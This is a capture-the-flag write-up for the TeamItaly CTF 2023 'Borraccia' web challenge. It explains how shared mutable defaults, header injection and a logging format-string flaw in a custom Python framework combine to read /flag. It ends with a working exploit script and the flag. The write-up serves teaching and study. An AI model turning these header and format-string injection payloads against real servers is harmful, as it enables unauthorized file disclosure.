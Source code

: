 # TeamItaly CTF 2023

## [web] Borraccia (2 solves)
I introduce to you Borraccia!

Borraccia is a minimal web framework which puts security first. Are you asking how he does it? Well, by removing (almost) all the features that I consider useless. Obviously it's written in Python, so it's 100% safe!

Note: You are limited to 60 requests per minute. It's recommended to test it locally first.

Site: http://borraccia.challs.teamitaly.eu

Author: Salvatore Abello <@salvatore.abello>

## Overview
In this challenge we are given an application which uses a custom, poorly-written web framework, called `Borraccia` (Flask in italian).
The challenge is tagged as a `misc`, so we probably need to use some Python shenanigans in order to solve the challenge.

The first thing that catches our attention is something called `ObjDict`, let's see how it's implemented and what it does:

```python

class ObjDict:
    def __init__(self, d={}):
        self.__dict__['_data'] = d # Avoiding Recursion errors on __getitem__

    def __getattr__(self, key):
        if key in self._data:
            return self._data[key]
        return None

    def __contains__(self, key):
        return key in self._data

    def __setattr__(self, key, value):
        self._data[key] = value

    def __getitem__(self, key):
        return self._data[key]

    def __setitem__(self, key, value):
        self._data[key] = value

    def __delitem__(self, key):
        del self._data[key]

    def __enter__(self, *args):
        return self

    def __exit__(self, *args):
        self.__dict__["_data"].clear()

    def __repr__(self):
        return f"ObjDict object at <{hex(id(self))}>"

    def __iter__(self):
        return iter(self._data)

```

Basically, this class works like an object in JavaScript:

```python

obj = ObjDict() # We can also use `with` operator
obj.first = 10
obj.second = "20"

print(obj.first) # 10
print(obj.second) # 20
print(obj.third) # None

print(obj.secondobj.first) # Error

obj.secondobj = ObjDict()
obj.secondobj.test = "yay"

print(obj.secondobj.test) # yay

```

At first glance this class would seem fine, but if you know at least the basics of Python, you can see that this class uses a [mutable object as default argument](https://florimond.dev/en/posts/2018/08/python-mutable-defaults-are-the-source-of-all-evil/)!

So, each and every instance of ObjDict shares the same dictionary!
This will come in handy later...

## Read a file using status codes

We need to read the flag from /flag somehow, so there's probably a path traversal.

We can see three interesting functions:
 - `serve_file`
 - `serve_static_file`
 - `serve_error`

The first two functions are not used inside `server.py`, so the only function left is `serve_error`.

Inside `server.py`:

```python
ctx.response.body = utils.serve_error(ctx.response.status_code)
```

If we can control the value of `status_code`, we can read arbitrary files.
But... How?! Isn't `status_code` only modified by the server?

Let's see how the request/response is handled:
```py
ctx.response = ObjDict() 
ctx.request = ObjDict()
    
ctx.response.status_code = 200 # Default value
```

Oh! Did you see that? `ctx.response` and `ctx.request` shares the same dictionary!

We can overwrite values thanks to:
```python
for probable_header in filter(None, rows[1:]): # Memorizing headers
    if (cap:=HEADER_RE.search(probable_header)):
        header = cap.group(1)
        value = cap.group(2)

        h = utils.normalize_header(header)
        v = utils.normalize_header_value(value)
        ctx.request[h] = v 
```

So, if we send a request with `status-code: /flag` the server will send the flag to us... Right?

Unfortunately no, let's take a look inside `request_handler`:

## Playing with string formatting

```python
try:
    utils.build_header(ctx) # Now the response is ready to be sent
    utils.log(logging, f"[{curr}]\t{ctx.request.method}\t{ctx.response.status_code}\t{address[0]}", "DEBUG", ctx)    
    assert ctx.response.status_code in ERRORS or ctx.response.status_code == 200
except AssertionError:
    raise # Something unexpected happened, close conection immediately
except Exception as e: 
    ctx.response.status_code = 500
    ctx.response.header = ""
    ctx.response.body = utils.serve_error(ctx.response.status_code) + utils.make_comment(f"{e}") # Something went wrong while building the header.
    

client.send((ctx.response.header + ctx.response.body).encode())
```

The flag will be loaded inside ctx.response.body but it will not be sent due to that `assert`, but if we're able to cause an exception (but not an AssertionError) with the flag inside, we can receive it.

The first error that came into my mind is, `KeyError`:

```python
test = {}
flag = "flag{fake}"
try:
    test[flag]
except KeyError as e:
    print(e) # 'flag{fake}'
```

Let's see how `utils.log` is implemented:

```python

def log(log, s, mode="INFO", ctx=None):
    {
        "DEBUG": log.debug,
        "INFO": log.info,
        "ERROR": log.error
    }[mode](s.format(ctx), {"mode": mode})

```

Do you see something SUSpicious? Of course you do. We can exploit `s.format` in order to force logging to cause an exception:

```python
def log(log, s, mode="INFO", ctx=None):
    {
        "DEBUG": log.debug,
        "INFO": log.info,
        "ERROR": log.error
    }[mode](s.format(ctx), {"mode": mode})

try:
    log(logging, "%(flag{fake_flag})s")
except Exception as e:
    print(e) # flag{fake_flag}

```

We can send a similar header in order to get the flag:

```
status-code: %({0[response][body]})s
```

But this is not going to work, there's a blacklist:

```python
@lru_cache
def normalize_header_value(s: str) -> str:
    return re.sub(r"[%\"\.\n\'\!:\(\)]", "", s)
```

So we can't use the following characters: `%".\n'!:()`

Since the blacklist is applied only to headers, we can bypass this by e.g putting those blacklisted characters inside request.params.


## Exploit

```python
import re
import requests

r = requests.get("http://borraccia.challs.teamitaly.eu?a=%(&b=)s",
            headers={
                    "status-code": "/flag",
                    "method": "{0[request][params][a]}{0[response][body]}{0[request][params][b]}"
            })

print("FLAG:", re.search(r"<!--'(flag\{.+\})'-->", r.text).group(1))

```

## Flag

`flag{4Ss3r7_3v3ry7h1nG!1!1!}`
